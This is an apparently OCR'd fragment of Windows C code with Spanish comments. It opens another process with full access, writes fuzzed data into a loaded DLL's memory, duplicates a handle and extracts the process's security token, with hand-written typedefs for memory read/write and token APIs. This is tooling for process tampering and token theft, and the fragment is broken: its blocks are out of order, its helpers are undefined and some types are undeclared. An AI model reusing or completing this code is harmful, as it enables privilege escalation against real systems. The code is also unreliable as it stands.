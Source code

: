 ```c
    DWORD targetPid = 1234;  // Reemplazar con el PID del proceso objetivo
    HANDLE hProcess;
    const char* targetModuleName = "target.dll";  // Reemplazar con el nombre de la DLL objetivo

    OpenProcess_t OpenProcess = (OpenProcess_t)GetProcAddress(LoadLibraryA("kernel32.dll"), "OpenProcess");

    // Abrir el proceso
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, targetPid);
    if (hProcess) {
        // Encontrar la DLL objetivo en el proceso
        HMODULE hModule = findTargetModule(hProcess, targetModuleName);
        if (hModule) {
            // Fuzzear memoria de la DLL encontrada
            fuzzMemory(hProcess, (LPVOID)hModule);
        }

        // Duplicar un handle (ejemplo)
        duplicateHandle(hProcess, (HANDLE)0x50);  // Handle ficticio

        // Extraer el token del proceso
        extractToken(hProcess);
    }

    return 0;
}
```



```c
// Definiciones básicas
typedef unsigned long DWORD;
typedef int BOOL;
typedef void* HANDLE;
typedef unsigned long long ULONG_PTR;
typedef unsigned char BYTE;
typedef void* LPVOID;
typedef void* HMODULE;
typedef unsigned long SIZE_T;

#define NULL 0
#define PAGE_READWRITE 0x04
#define MEM_COMMIT 0x1000
#define PROCESS_ALL_ACCESS 0x1F0FFF
#define TOKEN_QUERY 0x0008
#define TOKEN_DUPLICATE 0x0002
#define DUPLICATE_SAME_ACCESS 0x0002
#define MAX_MODULES 1024

// Funciones de carga dinámica de Windows
extern void* __cdecl LoadLibraryA(const char*);
extern void* __cdecl GetProcAddress(void*, const char*);

// Definición de tipos de funciones
typedef HANDLE (__stdcall *OpenProcess_t)(DWORD, BOOL, DWORD);
typedef BOOL (__stdcall *ReadProcessMemory_t)(HANDLE, LPCVOID, LPVOID, SIZE_T, SIZE_T*);
typedef BOOL (__stdcall *WriteProcessMemory_t)(HANDLE, LPVOID, LPCVOID, SIZE_T, SIZE_T*);
typedef BOOL (__stdcall *VirtualQueryEx_t)(HANDLE, LPCVOID, void*, SIZE_T);
typedef BOOL (__stdcall *EnumProcessModules_t)(HANDLE, HMODULE*, DWORD, LPDWORD);
typedef BOOL (__stdcall *GetModuleBaseNameA_t)(HANDLE, HMODULE, char*, DWORD);
typedef BOOL (__stdcall *DuplicateHandle_t)(HANDLE, HANDLE, HANDLE, HANDLE*, DWORD, BOOL, DWORD);
typedef BOOL (__stdcall *OpenProcessToken_t)(HANDLE, DWORD, HANDLE*);
typedef BOOL (__stdcall *SetThreadToken_t)(HANDLE*, HANDLE);
```